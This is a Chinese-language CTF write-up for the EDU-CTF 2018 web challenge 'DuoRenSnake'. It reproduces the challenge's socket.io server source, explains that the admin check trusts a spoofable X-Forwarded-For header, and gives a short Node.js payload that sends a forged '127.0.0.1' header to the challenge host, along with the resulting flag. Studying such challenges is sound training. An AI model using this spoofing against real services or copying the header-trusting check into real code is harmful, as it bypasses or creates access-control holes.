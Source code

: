 ```yaml
---
uuid: 466363de-257e-408d-ae44-68ee5f625d80
title: EDU-CTF 2018 - DuoRenSnake
tags:
  - writeup 
  - web
categories:
  - Capture The Flag
  - EDU-CTF 2018
series: EDU-CTF 2018
date: 2019-02-01 00:00:00
updated: 2019-02-01 00:00:00
---
```


開場 10 分鍾內可以解掉的水題，網站點進去是一個簡單的貪食蛇小遊戲，觀察後發現可以透過偽造 http header 來 pass check

<!--more-->

# [正文]
題目有給 source code

{% codeblock source code lang:js line_number:true %}
"use strict";

const app = require('express')();
const http = require('http').Server(app);
const io = require('socket.io')(http);
const _ = require('lodash');

const Snake = require('./snake');
const Apple = require('./apple');
var ipaddr = require('ipaddr.js');

let autoId = 0;
const GRID_SIZE = 40;
let players = [];
let apples = [];

app.get('/', function(req, res){
  res.sendFile(__dirname + '/index.html');
});

http.listen(3000, () => {
  console.log('listening on *:3000');
});

io.on('connection', (client) => {
  let player;
  let id;

  client.on('auth', (opts, cb) => {
    // Create player
    id = ++autoId;
    player = new Snake(_.assign({
      id,
      dir: 'right',
      gridSize: GRID_SIZE,
      snakes: players,
      apples
    }, opts));
    players.push(player);
    cb({ id: autoId });
  });

  client.on('key', (key) => {
    if(player) {
      player.changeDirection(key);
    }
  });

  client.on('disconnect', () => {
    _.remove(players, player);
  });

  client.on('admin', (msg, cb) => {
    var ipString = client.handshake.headers['x-forwarded-for'] || client.request.connection.remoteAddress;
    if (ipaddr.IPv4.isValid(ipString)) {

    } else if (ipaddr.IPv6.isValid(ipString)) {
      var ip = ipaddr.IPv6.parse(ipString);
      if (ip.isIPv4MappedAddress()) {
        ipString = ip.toIPv4Address().toString();
      } else {
        // ipString is IPv6
      }
    } else {
      // ipString is invalid
    }

    console.log(ipString);
    if(ipString == "127.0.0.1") {
      cb("FLAG{xxxxxxxxxx}");
    }
  });

});

for(var i=0; i < 3; i++) {
  apples.push(new Apple({
    gridSize: GRID_SIZE,
    snakes: players,
    apples
  }));
}


setInterval(() => {
  players.forEach((p) => {
    p.move();
  });
  io.emit('state', {
    players: players.map((p) => ({
      x: p.x,
      y: p.y ,
      id: p.id,
      nickname: p.nickname,
      points: p.points,
      tail: p.tail
    })),
    apples: apples.map((a) => ({
      x: a.x,
      y: a.y
    }))
  });
}, 100);
{% endcodeblock %}

## Analysis 
1. 觀察 source code，不難發現在 socket admin 下，ip check 可以透過偽造 x-forwarded-for 來 pass，然後就會直接噴 flag 了。
  {% codeblock lang:js first_line:53 %}
  client.on('admin', (msg, cb) => {
    var ipString = client.handshake.headers['x-forwarded-for'] || client.request.connection.remoteAddress;
    if (ipaddr.IPv4.isValid(ipString)) {

    } else if (ipaddr.IPv6.isValid(ipString)) {
    var ip = ipaddr.IPv6.parse(ipString);
    if (ip.isIPv4MappedAddress()) {
        ipString = ip.toIPv4Address().toString();
    } else {
        // ipString is IPv6
    }
    } else {
    // ipString is invalid
    }

    console.log(ipString);
    if(ipString == "127.0.0.1") {
    cb("FLAG{xxxxxxxxxx}");
    }
  });
  {% endcodeblock %}

## Payload

{% codeblock package.json lang:json %}
{
    "name": "payload",
    "version": "0.0.0",
    "dependencies": {
        "socket.io-client": "^2.2.0"
    },
    "license": "MIT"
}
{% endcodeblock %}

{% codeblock payload.js lang:js line_number:true %}
"use strict";

const io = require('socket.io-client')
const socket = io.connect('http://final.kaibro.tw:10001', {
    extraHeaders: { 'x-forwarded-for': "127.0.0.1" }
});

socket.emit( 'admin', 'm', m => console.log(m) );
{% endcodeblock %}

{% codeblock lang:shell line_number:false %}
$ node payload.js
FLAG{G3t_R3al_IP_1s_50_h4rd}
{% endcodeblock %}

FLAG: `FLAG{G3t_R3al_IP_1s_50_h4rd}`
